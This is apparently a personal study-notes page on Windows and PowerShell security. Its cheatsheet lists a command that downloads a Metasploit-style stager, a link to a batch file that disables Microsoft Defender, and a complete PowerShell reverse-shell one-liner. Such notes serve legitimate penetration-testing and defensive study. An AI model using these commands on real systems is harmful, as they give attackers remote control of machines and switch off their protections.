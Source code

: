 ### Things to learn
C#, Sysinternals, Windows Audit logs, 

### Common commands cheatsheet
- Download a file ```(New-Object System.Net.WebClient).DownloadFile('http://192.168.119.120/msfstaged.exe','msfstaged.exe')```
- Execute powershell code from URL - 
- Turn off MS protections using a bat ```https://raw.githubusercontent.com/swagkarna/Defeat-Defender-V1.2.0/main/Defeat-Defender.bat```
- Powershell reverse shells - https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1, ```$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',80);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex ". { $data } 2>&1" | Out-String ); $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()```

### Windows Registry
- Gui tool  -  Registry Editor (regedit)
- User level  -  HKEY_CURRENT_USER (HKCU)
- Machine level  -  HKEY_LOCAL_MACHINE (HKLM)  -  Needs admin privs to edit

# Important notes
- WMIC will be depricated, Miscorosft is suggesting to stick witk powershell
- SANS powershell course material  -  https://blueteampowershell.com

# Powershell for Defense

# Windows security
MITRE's ATT&CK Matrix for Windows
